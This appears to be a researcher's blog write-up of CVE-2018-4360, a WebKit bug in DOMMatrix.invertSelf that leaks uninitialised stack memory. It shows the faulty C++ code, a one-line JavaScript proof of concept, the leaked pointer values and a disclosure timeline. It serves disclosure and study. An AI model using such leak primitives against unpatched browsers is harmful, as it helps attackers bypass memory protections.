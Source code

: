 ```yaml
---
title: CVE-2018-4360 - WebKit Information Leak with DOMMatrix.invertSelf
date: '2019-02-19 22:21:03'
layout: post
---
```


While playing around with [domato](https://github.com/googleprojectzero/domato) and WebKit, I came across an interesting crash when calling `invertSelf` on a `DOMMatrix`. The bug was in the following code ([Source/WebCore/css/DOMMatrix.cpp](https://github.com/WebKit/webkit/blob/3f2a2d3c748d1b13116717c104410fd32e79d5cc/Source/WebCore/css/DOMMatrix.cpp#L229)):

```cpp
Ref<DOMMatrix> DOMMatrix::invertSelf()
{
    auto inverse = m_matrix.inverse();
    if (!inverse) {
        m_matrix.setMatrix(
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN()
        );
        m_is2D = false;
    }
    m_matrix = inverse.value();
    return Ref<DOMMatrix> { *this };
}
```

This issue is that inverting `m_matrix` can fail and set `inverse` to a nullopt, but `inverse.value()` is still always called overwriting the NaN values with an uninitialised pointer. This will fill up the matrix with random data from the stack, which we can then access:

```javascript
console.log(new DOMMatrix([0, 0, 0, 0, 0, 0]).invertSelf())
```
```
DOMMatrix:
  a: 2.3236913163e-314
  b: 6.9529314086834e-310
  c: 0
  d: 2.121995918e-314
  e: 2.2541024625e-314
  f: 6.9531249123115e-310
  is2D: false
  isIdentity: false
  m11: 2.3236913163e-314
  m12: 6.9529314086834e-310
  m13: 2.2560109e-314
  m14: 2.2561725264e-314
  m21: 0
  m22: 2.121995918e-314
  m23: 2.3487948945e-314
  m24: 2.2541024625e-314
  m31: 2.256111357e-314
  m32: 2.3217606737e-314
  m33: 2.2560109e-314
  m34: 2.2541024625e-314
```

After converting to Int64s using the wonderful scripts from [https://github.com/saelo/jscpwn/](https://github.com/saelo/jscpwn/):
```javascript
0x00007fff18553185
0x0000000100000101
0x00007ffff961eb70
0x00007fff18553185
0x00000002205adf60
0x0000000100000101
0x000000022b4c7e60
0x0000000228479bb0
0x00000002201af0c0
```

The reason that this started crashing was due to the changes made to [WTF's internal std::optional](https://bugs.webkit.org/show_bug.cgi?id=187669) which caused any invalid access to crash instead of using the uninitialised value.

Timeline:
* Jul 4, 2018 - Reported to Apple 
* Jul 6, 2018 - Acknowledgement from Apple
* Jul 9, 2018 - Fix commited to svn
* Sep 17, 2018 - iOS and Safari updated

References:

* [WebKit/webkit#a0b0e016](https://github.com/WebKit/webkit/commit/a0b0e01648892b0bb60a01aca619eec85eb27f7a)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4360](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4360)
* [https://support.apple.com/en-au/HT209106](https://support.apple.com/en-au/HT209106)